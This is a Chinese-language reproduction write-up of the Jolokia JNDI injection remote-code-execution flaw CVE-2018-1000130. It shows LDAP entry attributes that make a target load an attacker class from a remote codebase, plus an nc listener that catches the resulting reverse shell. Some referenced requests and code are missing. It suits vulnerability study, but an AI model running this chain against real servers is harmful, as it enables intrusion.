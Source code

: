 # CVE-2018-1000130 Jolokia 远程代码执行漏洞

### 一、漏洞简介

Jolokia服务的代理模式默认情况下在1.5.0版之前容易受到JNDI注入的攻击。当以代理模式部署Jolokia代理时，有权访问Jolokia Web端点的外部攻击者可以通过JNDI注入攻击远程执行任意代码。由于Jolokia库使用用户提供的输入启动LDAP / RMI连接，因此有可能造成这种攻击。

### 二、漏洞影响

Jolokia < 1.50

### 三、复现过程

**出于演示目的，我们将在环回接口上运行漏洞利用链中的所有组件。**

1. 以下POST请求可用于利用此漏洞：

2. 我们需要创建LDAP和HTTP服务器以提供恶意负载。这些代码段最初取自marshalsec和zerothoughts GitHub的仓库。

3. 之后，我们需要创建一个ExportObject.java带有反向外壳命令。此类的字节码将通过我们的HTTP服务器提供：

4. LDAP服务器应使用以下命令行参数运行：

`http://127.0.0.1:7873/#ExportObject 9092`

**哪里：**

* http://127.0.0.1:7873/ 是攻击者的HTTP服务器的URL
* ExportObject 是包含攻击者代码的Java类的名称
* 9092 是LDAP服务器监听端口

5. nc在port上启动一个监听器7777：


```bash
$ nc -lv 7777
```

6. 发送步骤1中所示的请求后，易受攻击的服务器向攻击者的LDAP服务器发出请求。

![](images/15890742959768.png)


当侦听端口的LDAP服务器9092接收到来自易受攻击的服务器的请求时，它会创建一个Entry具有属性的对象，并在LDAP响应中将其返回。


```bash
e.addAttribute（“ javaClassName”，“ ExportObject”）;
e.addAttribute（“ javaCodeBase”，“ http://127.0.0.1/”）;
e.addAttribute（“ objectClass”，“ javaNamingReference”）;
e.addAttribute（“ javaFactory”，“ ExportObject”）;
```

当易受攻击的服务器收到LDAP响应时，它将ExportObject.class从攻击者的HTTP服务器获取，实例化该对象并执行reverse shell命令。

攻击者从其nc侦听器上的易受攻击的服务器接收回连接。

![](images/15890743181418.png)


参考链接

https://blog.gdssecurity.com/labs/2018/4/18/jolokia-vulnerabilities-rce-xss.html
